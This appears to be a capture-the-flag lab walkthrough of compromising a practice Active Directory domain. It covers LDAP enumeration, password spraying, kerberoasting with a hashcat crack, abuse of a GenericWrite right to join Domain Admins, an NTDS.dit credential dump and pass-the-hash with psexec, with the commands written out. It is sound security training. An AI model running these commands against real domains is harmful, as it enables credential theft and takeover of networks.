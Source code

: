 ## Cyberseclabs - Office Walkthrough


## Nmap Scan 
As usual, we start off with a nmap scan to discover open ports and its corresponding services runnign on the system.

![nmap_scan.PNG](/images/office/Nmap/nmap_scan.PNG)

From the nmap scan , we see a bunch of open ports, mainly
- Port 88 : Kerberos
- Ports 135,139,445 : SMB 
- Ports 389,3268 : LDAP
- Port 3389 : RDP
- Port 5985 : Winrm 

Before we continue, we have to edit our **hosts** file and add the  domain name + IP address 

![hosts.PNG](/images/office/Nmap/hosts.PNG)

## SMB Enumeration
Let's start off by enumerating SMB, to see if we have anonymous access (a.k.a NULL Session).

![smbclient.PNG](/images/office/Nmap/smbclient.PNG)

As seen above, no shares were shown/discovered when we login to smb as anonymous 

Since we do not have any credentials or information on SMB, let's turn our attention to LDAP.

## LDAP Enumeration
One great tool to enumerate LDAP that is build into Kali Linux is **ldapsearch**.
![namingcontexts.PNG](/images/office/LDAP/namingcontexts.PNG)
<u>ldapsearch -h 172.31.3.2 -x -s base namingcontexts</u>
By running the above command, we get the base DN so that we can do our ldap query later on.

![dsmith.PNG](/images/office/LDAP/dsmith.PNG)
![crhodes.PNG](/images/office/LDAP/crhodes.PNG)
![ssmith.PNG](/images/office/LDAP/ssmith.PNG)
<u>ldapsearch -h 172.31.3.2 -x -b "DC=roast,DC=csl"</u>
Looking at the output above , we discovered 3 users and user **dsmith** has its password in his description. (WelcomeToR04st)

We went back to **enumerate smb** with user **dsmith**'s credentials, however, nothing interesting there.

## RPC User Enumeration 
Upon obtaining user **dsmith**'s credentials, I tried to enumerate for more users using rpcclient 
![enumdomusers.PNG](/images/office/rpcclient/enumdomusers.PNG)
From the output, there is an additional non-default user  **roastsvc**.

## Kerbrute PasswordSpray
Since evil-winrm does not return us a shell as user **dsmith**, let's try some password spraying to see if any other users share the same password as **dsmith**
![passwordspraying.PNG](/images/office/kerbrute/passwordspraying.PNG)
<u>./kerbrute_linux_amd64 passwordspray -v -d roast.csl --dc 172.31.3.2 users.txt WelcomeToR04st</u>
By password spraying, we discover that user **crhodes** also shares the same password as user **dsmith**. 

## Enumerate users with SPN set
Let's obtain a shell as user **crhodes** using evil-winrm and at the same time, load [PowerView](https://github.com/PowerShellMafia/PowerSploit) powershell script.
![crhodes.PNG](/images/office/kerberoast/crhodes.PNG)
After obtaining a shell as user **crhodes**, we realised that the access.txt is not in the Desktop directory. It means we have to enumerate more and esclate ourselves to another user. 

From here, we can get more information on all the AD users by running PowerView's command **Get-NetUser -SPN** to list all users with a SPN set. 

![SPN.PNG](/images/office/kerberoast/SPN.PNG)
From the output, we discover that user **roastsvc** has a serviceprincipalname(SPN) set. With this information, it tells us that user **roastsvc** is **likely** susceptible to **kerberoasting**.

## Kerberoasting 
Since we know that user **roastsvc** is likely vulnerable to kerberoasting, we can use [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) by impacket to obtain the TGS and take it offline to crack
![TGS.PNG](/images/office/kerberoast/TGS.PNG)

Once we obtain the TGS, let's crack it with hashcat
![cracked_tgs.PNG](/images/office/kerberoast/cracked_tgs.PNG)
<u>hashcat -m 13100 -a 0 roastsvc_spn /usr/share/wordlists/rockyou.txt</u>
Credentials -> roastsvc:!!!watermelon245

## Privilege Esclation to SYSTEM
Once we get a shell as user **roastsvc**, we upload and run [BloodHound](https://github.com/BloodHoundAD/BloodHound) against the machine to reveal any misconfigured AD relationships.

First, let's setup a smb-server using impacket then mount the smb share on the target machine, so that we can upload Bloodhound and download the bloodhound output with ease
- 1. Setup impacket's smb-server
	![smbserver.PNG](/images/office/SMBServer/smbserver.PNG)
	Syntax : impacket-smbserver (sharename) (directory) -smb2support -username (your-username) -password (your-password)
- 2. Setup new PSDrive on target machine and mount the share
	![mount.PNG](/images/office/SMBServer/mount.PNG)
	- $pass = convertto-securestring (your-password) -AsPlainText -Force
	- $cred = New-Object System.Management.Automation.PSCredential('(your-username)', $pass)
	- New-PSDrive -Name (your-username) -PSProvider FileSystem -Credential $cred \\\\(your-ip)\(share-name)
- 3. CD into your share, run bloodhound 
	![sharphound.PNG](/images/office/SMBServer/sharphound.PNG)
	- Make sure you upload bloodhound to the directory you created as the share
- 4. Start Bloodhound 
	![bloodhound.PNG](/images/office/SMBServer/bloodhound.PNG)
	- neo4j console start
	- bloodhound 

- 5. Upload the bloodhound output to analyze 
	![bloodhound_output.PNG](/images/office/SMBServer/bloodhound_output.PNG)
	- Drag and drop the zip file into the bloodhound console

Once we are done setting up BloodHound, let's start analyzing the output that we have gathered from the target machine.
- 1. Mark user **roastsvc** as **Owned**
	![owned_user.jpg](/images/office/SYSTEM/owned_user.jpg)
- 2. Use the built-in query 
	![path_to_DA.jpg](/images/office/SYSTEM/path_to_DA.jpg)
	- "Shortest Path to Domain Admins from Owned Principals"

From here, we found out that user **roastsvc** has **GenericWrite** to group **Domain Admins**.

![generic_write.PNG](/images/office/SYSTEM/generic_write.PNG)
- **GenericWrite** : Provides write access to all properties

Since user **roastsvc** has **GenericWrite** permission to the **Domain Admins** group, we can simply just add user **roastsvc** into the **Domain Admins** group.
- 1. List all current members of **Domain Admins** group
	![original_DA_members.PNG](/images/office/SYSTEM/original_DA_members.PNG)
	- net group (group-name) /domain
- 2. Add user **roastsvc** into **Domain Admins** group
	![add_to_DA.PNG](/images/office/SYSTEM/add_to_DA.PNG)
	- net group (group-name) (user-to-add) /ADD /DOMAIN 
- 3. Check if user **roastsvc** is added into the group
	![updated_DA_members.PNG](/images/office/SYSTEM/updated_DA_members.PNG)
	- net group (group-name) /domain

Lastly, we can dump the NTDS.dit hash file for the Administrator's hash using [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py) by impacket and [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) into the target machine
- 1. Dumping the NTDS.dit hash file 
	![secretsdump.PNG](/images/office/SYSTEM/secretsdump.PNG)
	- python secretsdump.py (domain-name)/(user)@(domain-name) -dc-ip 172.31.3.2
- 2. Get the Administrator's hash
	![admin_hash.PNG](/images/office/SYSTEM/admin_hash.PNG)
- 3. PSExec 
	![psexec.PNG](/images/office/SYSTEM/psexec.PNG)
	- python psexec.py (domain-name)/user@(domain-name) -hashes (admin-hash) -dc-ip 172.31.3.2 




















